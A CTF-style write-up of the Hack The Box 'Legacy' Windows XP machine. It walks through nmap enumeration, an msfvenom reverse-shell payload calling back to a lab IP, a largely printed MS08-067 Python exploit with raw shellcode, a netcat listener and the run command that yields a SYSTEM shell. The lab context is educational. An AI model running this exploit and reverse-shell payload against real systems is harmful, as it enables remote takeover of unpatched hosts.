





## Overview

Legacy is a Windows XP SP3 box that was vulnerable to a couple famous smb exploits, MS08-067 (exploited by Conficker) and MS17-010. I went with the former because I had already covered using MS17-010 in the write-up for Blue. The box was pretty straight forward; once I generated a new payload and updated the script I received a callback and shell as 'nt authority/system'.

## Enumeration

**Software**

* Microsoft Windows XP Professional 5.1.2600 SP3 Build 2600

**Port Scan**
```
map -vv -Pn -sT -A -p- 10.10.10.4 -oN /mnt/data/boxes/legacy/_full_tcp_nmap.txt
```

* 139/tcp - smb
* 445/tcp - smb
* 3389/tcp - remote desktop


## Steps (user)

There is no user step, exploit provides 'nt authority\system' shell.

## Steps (root/system)

I started by trying some typical smb commands but was not able to connect or gain any useful information.



I used nmap to scan for smb vulnerabilities and found that it was vulnerable to MS08-067 and MS17-010. I decided to proceed with MS08-067 which was exploited by Conficker.

> Additional Info: Inside story behind [MS08-067](https://docs.microsoft.com/en-us/archive/blogs/johnla/the-inside-story-behind-ms08-067)

```
nmap -p 139,445 -Pn --script=smb-vuln* 10.10.10.4
```



Doing an internet search for MS08-067 showed an existing python exploit called "Microsoft Windows - 'NetAPI32.dll' Code Execution (Python)" - https://www.exploit-db.com/exploits/40279

I reviewed the script and updated it with my own shellcode using MSFVenom. I went with a standard shell_reverse_tcp, specified the IP and port, along with the EXITFUNC and badchars as called out in the script.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```

The original payload was 380 bytes and mine was 348, so a difference of 32 bytes. To accomodate for this I added an additional 32 NOPs and I added my payload right after.  

```python
import struct
import time
import sys

from threading import Thread    #Thread is imported incase you would like to modify

try:
    from impacket import smb
    from impacket import uuid
    from impacket import dcerpc
    from impacket.dcerpc.v5 import transport
except ImportError, _:
    print 'Install the following library to make this script work'
    print 'Impacket : http://oss.coresecurity.com/projects/impacket.html'
    print 'PyCrypto : http://www.amk.ca/python/code/crypto.html'
    sys.exit(1)

print '#######################################################################'
print '#   MS08-067 Exploit'
print '#   This is a modified verion of Debasis Mohanty\'s code (https://www.exploit-db.com/exploits/7132/).'
print '#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi'
print '#######################################################################\n'

#Reverse TCP shellcode from metasploit; port 443 IP 192.168.40.103; badchars \x00\x0a\x0d\x5c\x5f\x2f\x2e\x40;
#Make sure there are enough nops at the begining for the decoder to work. Payload size: 380 bytes (nopsleps are not included)
#EXITFUNC=thread Important!
# Reverse TCP shellcode from metasploit; port 443 IP 192.168.40.103; badchars \x00\x0a\x0d\x5c\x5f\x2f\x2e\x40;
# Make sure there are enough nops at the begining for the decoder to work. Payload size: 380 bytes (nopsleps are not included)
# EXITFUNC=thread Important!
# Oiriginal -> msfvenom -p windows/meterpreter/reverse_tcp LHOSiT=192.168.30.77 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python

shellcode= "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode= "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
shellcode+=b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
shellcode+=b"\x76\x0e\xb1\xb3\xda\xda\x83\xee\xfc\xe2\xf4\x4d\x5b"
shellcode+=b"\x58\xda\xb1\xb3\xba\x53\x54\x82\x1a\xbe\x3a\xe3\xea"
shellcode+=b"\x51\xe3\xbf\x51\x88\xa5\x38\xa8\xf2\xbe\x04\x90\xfc"
shellcode+=b"\x80\x4c\x76\xe6\xd0\xcf\xd8\xf6\x91\x72\x15\xd7\xb0"
shellcode+=b"\x74\x38\x28\xe3\xe4\x51\x88\xa1\x38\x90\xe6\x3a\xff"
shellcode+=b"\xcb\xa2\x52\xfb\xdb\x0b\xe0\x38\x83\xfa\xb0\x60\x51"
shellcode+=b"\x93\xa9\x50\xe0\x93\x3a\x87\x51\xdb\x67\x82\x25\x76"
shellcode+=b"\x70\x7c\xd7\xdb\x76\x8b\x3a\xaf\x47\xb0\xa7\x22\x8a"
shellcode+=b"\xce\xfe\xaf\x55\xeb\x51\x82\x95\xb2\x09\xbc\x3a\xbf"
shellcode+=b"\x91\x51\xe9\xaf\xdb\x09\x3a\xb7\x51\xdb\x61\x3a\x9e"
shellcode+=b"\xfe\x95\xe8\x81\xbb\xe8\xe9\x8b\x25\x51\xec\x85\x80"
shellcode+=b"\x3a\xa1\x31\x57\xec\xdb\xe9\xe8\xb1\xb3\xb2\xad\xc2"
shellcode+=b"\x81\x85\x8e\xd9\xff\xad\xfc\xb6\x4c\x0f\x62\x21\xb2"
shellcode+=b"\xda\xda\x98\x77\x8e\x8a\xd9\x9a\x5a\xb1\xb1\x4c\x0f"
shellcode+=b"\x8a\xe1\xe3\x8a\x9a\xe1\xf3\x8a\xb2\x5b\xbc\x05\x3a"
shellcode+=b"\x4e\x66\x4d\xb0\xb4\xdb\xd0\xd0\xbf\xae\xb2\xd8\xb1"
shellcode+=b"\xa3\xb2\x53\x57\xd9\xca\x8c\xe6\xdb\x43\x7f\xc5\xd2"
shellcode+=b"\x25\x0f\x34\x73\xae\xd6\x4e\xfd\xd2\xaf\x5d\xdb\x2a"
shellcode+=b"\x6f\x13\xe5\x25\x0f\xd9\xd0\xb7\xbe\xb1\x3a\x39\x8d"
shellcode+=b"\xe6\xe4\xeb\x2c\xdb\xa1\x83\x8c\x53\x4e\xbc\x1d\xf5"
shellcode+=b"\x97\xe6\xdb\xb0\x3e\x9e\xfe\xa1\x75\xda\x9e\xe5\xe3"
shellcode+=b"\x8c\x8c\xe7\xf5\x8c\x94\xe7\xe5\x89\x8c\xd9\xca\x16"
shellcode+=b"\xe5\x37\x4c\x0f\x53\x51\xfd\x8c\x9c\x4e\x83\xb2\xd2"
shellcode+=b"\x36\xae\xba\x25\x64\x08\x3a\xc7\x9b\xb9\xb2\x7c\x24"
shellcode+=b"\x0e\x47\x25\x64\x8f\xdc\xa6\xbb\x33\x21\x3a\xc4\xb6"
shellcode+=b"\x61\x9d\xa2\xc1\xb5\xb0\xb1\xe0\x25\x0f"

...truncated...
```

Looking at the script there are different return addresess for various different operating systems. This took a little trial and error but eventually it worked with option 6, 'Windows XP SP3 English (NX)'.

I started a netcat listener (nc -lvnp 4200) and ran the command with the parameter of 6 and received a shell

```
python ./40279.py 10.10.10.4 6
```



Note: This version of windows doesn't have whoami.exe so I had to upload it.



